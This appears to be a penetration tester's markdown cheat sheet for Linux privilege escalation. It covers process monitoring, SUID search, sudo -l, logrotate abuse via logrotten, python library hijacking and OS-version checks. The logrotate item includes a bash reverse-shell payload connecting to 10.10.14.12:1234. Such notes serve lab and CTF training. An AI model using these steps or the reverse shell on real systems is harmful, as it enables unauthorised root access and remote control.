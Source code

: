 Linux Privesc 

## Process working on the machine to check

- Monitor process : ```pspy```

## SUID

- gtfobins

## Ways to escalate

- Using SUID to become root : https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

- Use LinuxPrivChecker or LinEnum, or https://github.com/pentestmonkey/unix-privesc-check or linux smart enumeration.

- Search file in the home directory

- Find the file with suid : ```find / -perm -u=s -type f 2>/dev/null```


- ```sudo -l``` to find what can be used with that user as a root !!!!
You have the application, and where you have to use if you want to do it without password pay attention !!!! If it's a particular user, do : ```sudo -u <user> <command>```


- logrotate : if it's executed by the root user with a crontask, and you have control on a log file, use logrotten : add lot of things inside log file, check if the size after the logrotate command has changed. If it's okay :  bash -c "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1" in a file (payload for example). Then ./logrotten -p payload \<path to the log file which is rotate\>. Then write data inside the log file : echo "blabla" > \<log file\>

- python library hijacking : https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html


- Any interpreter with Right of other user ? try to execute bash command. (/bin/bash)

---

## What's the distribution type? What version? :

```
- cat /etc/issue 
- cat /etc/*-release   
- cat /etc/lsb-release
- cat /etc/redhat-release
```
---

## What's the kernel version? Is it 64-bit?
